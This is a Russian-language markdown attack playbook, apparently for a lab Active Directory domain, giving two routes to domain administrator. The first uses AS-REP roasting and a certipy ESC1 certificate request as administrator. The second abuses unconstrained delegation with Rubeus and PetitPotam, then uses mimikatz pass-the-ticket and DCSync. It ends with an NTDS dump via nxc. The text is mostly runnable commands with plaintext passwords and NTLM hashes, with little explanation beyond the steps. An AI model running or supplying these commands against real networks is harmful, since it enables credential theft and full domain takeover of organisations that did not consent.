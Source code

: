 # Requirements
[NXC](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
[PetitPotam](https://github.com/topotam/PetitPotam)
[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe)
[mimikatz](https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe)


## Первый вариант взятия ДОМЕН АДМИНА
  asrep roasting r3n0, (пароль `P@ssw0rd`). Через certipy видно что от данного пользака можно сделать ESC1. 
```certipy-ad req -u R3n0 -hashes 8f81de1111733d3a03cdcfd31ae696de -dc-ip 172.31.200.102 -ca nightcity-DC-02-CA -template Faraday -upn administrator@NIGHTCITY.CORP -debug```

```sudo apt install ntpdate && sudo ntpdate 172.31.200.101```

```certipy-ad auth -pfx administrator.pfx -dc-ip 172.31.200.101 -debug```


## Второй вариант взятия ДОМЕН АДМИНА
На шаре pacifica\Dogtown - лежал пароль локал админа этой тачки. Видим что pacifica имеет права неограниченного дегерирования. Заходит на хост по рдп ```xfreerdp /v:172.31.200.111 /u:David /p:D@v1d_l0v#s_LuCy  /dynamic-resolution +clipboard```, закидываем rubeus.exe. Ставим ```.\Rubeus.exe monitor /interval:5``` Параллельно делаем petitpotam.py скачать с гита. ```python3 PetitPotam.py pacifica.NIGHTCITY.CORP 172.31.200.101```. В окне рубеусе появляется новый билетик для DC-01.
![типа такого будет](https://habrastorage.org/r/w1560/getpro/habr/upload_files/abe/6dd/48d/abe6dd48dd0602f5780b37462f13ffc7.png)
Теперь закидываем еще мимик на тачку
```
[IO.File]::WriteAllBytes("C:\Users\David\Desktop\ticket-filename.kirbi", [Convert]::FromBase64String(“base64-ticket”))
Mimikatz.exe
privilege::debug
kerberos::ptt C:\Users\David\Desktop\ticket-filename.kirbi
lsadump::dcsync /user:Administrator
```
Остается получить ntds ```nxc smb 172.31.200.101 -u Administrator -H 90c1e25b12005c3146f13228043aa87d  --ntds```
